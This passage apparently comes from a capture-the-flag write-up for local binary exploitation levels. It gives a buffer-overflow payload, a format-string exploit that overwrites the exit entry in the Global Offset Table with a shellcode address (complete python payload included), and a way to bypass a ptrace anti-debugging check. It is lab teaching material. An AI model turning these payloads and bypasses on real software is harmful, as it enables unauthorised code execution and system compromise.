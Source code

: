 ```shell

(python -c 'print("A" * 156 + "\xff\xd7\xff\xff")') | ~/level04
```

---

## Level05 - Format string vulnerability

vulnerable printf and then exit

replace the exit address in the Global Offset Table, with the address of a shellcode

### Resolve

```shell
objdump -R ~/level05 | grep exit
  080497e0 R_386_JUMP_SLOT   exit

b*main+195
run <<< "AAAAAA"
telescope 20
  => offset 10

```

We want write `0xffffd7ae` at `0x080497e0`

```bash
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %10$hn +  %<VALUE_2>x + %11$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %10$hn +  %<VALUE_2>x + %11$hn
   |           |            |                       |
0x080497e0 0x080497e2  (0xd7ae - 8)         (0xffff - 0xd7ae)

python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55206x" + "%10$hn" + "%10321x" + "%11$hn"' > /tmp/exploit05
```

---

## Level06 - Serial decoding

It asks for a login and a serial.

After that it does several complex calculations based on the login.

At the end the result is compare to the serial. If ok, call `system("/bin/sh")`

### Resolve

However while we were doing the debugging with GDB, there was a protection with `ptrace`. To bypass it, just break before and `set $eax=0` after its call.
